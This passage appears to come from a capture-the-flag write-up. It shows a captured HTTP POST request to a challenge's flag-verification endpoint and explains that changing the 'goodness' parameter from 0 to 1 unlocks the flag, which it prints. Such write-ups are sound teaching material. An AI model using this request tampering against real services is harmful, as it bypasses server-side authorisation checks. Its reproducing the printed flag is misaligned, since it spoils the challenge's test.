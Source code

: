 \documentclass{article}
\begin{document}
\begin{center}
    \begin{verbatim}
POST /verify/flag.php HTTP/1.1
Host: flag-service.0xmmalik.repl.co
Cookie: PHPSESSID=...
Content-Length: 10
Sec-Ch-Ua: "Not_A Brand";v="8", "Chromium";v="120"
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)...
Sec-Ch-Ua-Platform: "macOS"
Origin: https://flag-service.0xmmalik.repl.co
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://flag-service.0xmmalik.repl.co/verify/process.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=1, i
Connection: close

goodness=0
    \end{verbatim}
\end{center}

We can change the goodness value at the bottom from ``0'' to ``1'' and send the request through (hopefully in time for the token to not have expired). At last, the page displays the flag: \texttt{RC\{z3r0\_fact0r\_auth3nticati0n\}}
\end{document}
